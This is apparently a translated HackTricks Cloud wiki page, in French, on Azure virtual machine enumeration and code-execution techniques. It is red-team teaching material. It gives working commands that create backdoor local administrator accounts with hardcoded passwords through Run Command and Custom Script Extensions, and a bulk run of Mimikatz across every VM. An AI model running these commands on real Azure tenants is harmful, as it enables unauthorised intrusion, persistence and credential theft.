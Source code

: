 # Az - Machines Virtuelles & Réseau

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Informations de base

[From the docs:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Les machines virtuelles Azure sont l'un des plusieurs types de [ressources informatiques à la demande et évolutives](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) que propose Azure. En général, vous choisissez une machine virtuelle lorsque vous avez besoin de plus de contrôle sur l'environnement informatique que les autres options ne le permettent. Cet article vous fournit des informations sur ce que vous devez considérer avant de créer une machine virtuelle, comment vous la créez et comment vous la gérez.

## Informations sur le réseau Azure

Les réseaux Azure contiennent **différentes entités et façons de le configurer.** Vous pouvez trouver une brève **description,** **exemples** et **commandes d'énumération** des différentes entités réseau Azure dans :

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** offre une solution d'accès RDP (Remote Desktop Protocol) et SSH (Secure Shell) sécurisée et entièrement gérée via SSL à travers le portail Azure. Il est intégré dans un réseau virtuel Azure, permettant la connectivité RDP et SSH aux machines virtuelles en utilisant des IP privées, évitant ainsi le besoin d'IP publiques. Cela en fait une alternative plus sûre et plus pratique aux méthodes traditionnelles impliquant des attributions d'IP publiques et des configurations de règles NSG pour l'accès aux machines virtuelles. Les développeurs et le personnel informatique peuvent accéder en toute sécurité aux machines virtuelles depuis le portail Azure en utilisant leurs navigateurs web, simplifiant ainsi le processus pour les environnements de développement et de test.

Pour lister tous les hôtes Azure Bastion dans votre abonnement, vous pouvez utiliser la commande suivante :

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Énumération des VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Exécuter des commandes dans une VM**

### **Connexion AAD dans VM**

Il est possible de permettre l'accès aux utilisateurs authentifiés via AzureAD. Par exemple, en essayant d'accéder à une **linux VM** : `ssh username@azure-corp.com@1.1.1.1` (il est important d'**utiliser l'email** avec le azurecorp utilisé lors de la tentative de connexion) vous pourriez obtenir une erreur comme : 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Il suffit de **suivre ces instructions** en allant sur [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) et en indiquant le code, utilisez l'email et le mot de passe comme identifiants et vous pourrez vous connecter via SSH (si cet utilisateur a suffisamment de permissions pour le faire : rôle `Virtual Machine Administrator Login` ou `Virtual Machine User Login`).

### **Exécuter la commande**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Exécuter l'extension de script personnalisé**

Les extensions de machine virtuelle (VM) Azure sont **de petites applications** qui fournissent des configurations et des **tâches** d'automatisation après le déploiement sur **les VM Azure**. Par exemple, si une machine virtuelle nécessite l'installation de logiciels, une protection antivirus ou la capacité d'exécuter un script à l'intérieur, vous pouvez utiliser une extension de VM.

Par conséquent, si vous avez accès pour l'écrire, vous pouvez exécuter du code arbitraire :
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) est un outil PowerShell similaire à Ansible, utilisé pour configurer un hôte par le biais de code. DSC s'intègre à Azure, permettant le téléchargement de fichiers de configuration spécifiques. Ces fichiers doivent respecter une syntaxe stricte. Notamment, l'extension DSC dans Azure peut exécuter des commandes à partir de fichiers qui répondent à certains critères de formatage, même si la syntaxe n'est pas correcte selon les normes DSC, comme le montre la figure fournie.

L'exécution de ces commandes est facilitée par la fonction [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) dans Az PowerShell. Les exigences incluent un fichier **.PS1** avec une fonction définie et le fichier doit être compressé dans un fichier **.zip**. Même si la syntaxe peut ne pas être précise pour DSC, le code s'exécutera toujours. Cependant, l'extension marquera l'état d'exécution comme "échec", et aucune sortie de la commande ne sera visible en raison du statut étant écrasé par le message d'échec.

### VM Application Definitions

Les définitions d'application VM permettent le déploiement répétable d'applications versionnées sur une VM Azure. Cette ressource prend en charge le déploiement et la mise à jour d'applications sur plusieurs VMs. Pour configurer cela, plusieurs étapes sont nécessaires, impliquant des commandes comme **`New-AzGalleryApplication`** et **`New-AzGalleryApplicationVersion`** dans Az PowerShell.

L'exécution d'applications ou de commandes par cette méthode implique le **"VMAppExtension"**, qui est installé automatiquement lorsqu'une application est appliquée à une VM. L'extension récupère le fichier à partir de l'URI spécifié et le nomme exactement comme l'application, sans extension. Pour exécuter correctement le fichier, le champ "ManageActions" dans l'appel API REST doit être configuré pour renommer le fichier avec l'extension appropriée. La configuration de cette méthode, une fois terminée, ressemblera à la structure montrée dans la figure fournie.

Cependant, cette méthode d'exécution est relativement lente, prenant environ 3-4 minutes pour exécuter une application ou une commande. Les fichiers liés à ce processus sont stockés dans des répertoires spécifiques (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` pour la copie de l'application et `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` pour l'état d'exécution).

Les deux techniques offrent des moyens uniques d'exécuter des commandes et de déployer des applications dans des environnements Azure, chacune avec son propre ensemble d'exigences, d'étapes et de considérations.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) sont une fonctionnalité d'Azure qui permet aux Runbooks, configurés dans un compte d'automatisation, d'être exécutés sur une machine virtuelle Azure (VM) qui fait partie du HWG désigné. Cette exécution est facilitée par une extension installée sur la VM, qui déploie le code du Runbook sur la VM. Un aspect significatif de ce processus est que les véritables identifiants ne sont pas un facteur dans l'exécution car le code s'exécute avec des privilèges élevés, spécifiquement en tant que **SYSTEM** ou root, comme illustré dans la figure fournie.

Un détail crucial pour ceux utilisant des VMs Windows 10 est la nécessité de spécifier la version de PowerShell pour le Runbook. Elle doit être configurée pour s'exécuter en tant que PowerShell Version 5.1 au lieu de 7.1. Cette exigence découle du fait que PowerShell 7.1 n'est pas installé par défaut sur ces VMs, entraînant un échec de l'exécution du script si la version 7.1 est spécifiée.

Cette fonctionnalité d'Azure offre une méthode robuste pour automatiser et gérer des tâches à travers des environnements hybrides, permettant une gestion et une exécution centralisées des tâches sur les VMs Azure.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
